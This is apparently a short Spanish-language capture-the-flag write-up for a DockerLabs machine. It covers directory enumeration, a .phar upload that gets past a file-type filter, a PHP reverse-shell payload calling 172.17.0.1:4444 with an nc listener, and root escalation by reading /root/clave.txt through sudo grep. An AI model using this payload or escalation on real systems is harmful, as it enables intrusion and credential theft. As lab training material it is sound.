

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/dockerlabs/dockerlabs/index.html · generator: mkdocs

# DockerLabs

*80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))*

Con Gobuster se encuentra dir *http://172.17.0.2/machine.php*

No deja subir archivos que no sean .zip, pero probamos con otras extensiones de php para intentar lanzar una revshell
Usaremos BURPSUITE con un ataque sniper con las distintas extensiones:

![](../../assets/img/Pasted_image_20251009195853.png)

Vemos que la respuesta del archivo subido con extensión *.phar* es exitosa.

Subimos un .phar con el código
`<?php exec("bash -c 'bash -i >&/dev/tcp/172.17.0.1/4444 0>&1'"); ?>`

Ponemos a la escucha   un `nc -nvlp 4444`
**www-data**

## Escalada

- (root) NOPASSWD: /usr/bin/cut
(root) NOPASSWD: /usr/bin/grep*

En /opt vemos una *nota.txt*
`Protege la clave de root, se encuentra en su directorio /root/clave.txt, menos mal que nadie tiene permisos para acceder a ella.`

## Gtfobins

`LFILE=/root/clave.txt`
`sudo -u root grep '' $LFILE`
passwd -> **dockerlabsmolamogollon123**
`su root`
**root**
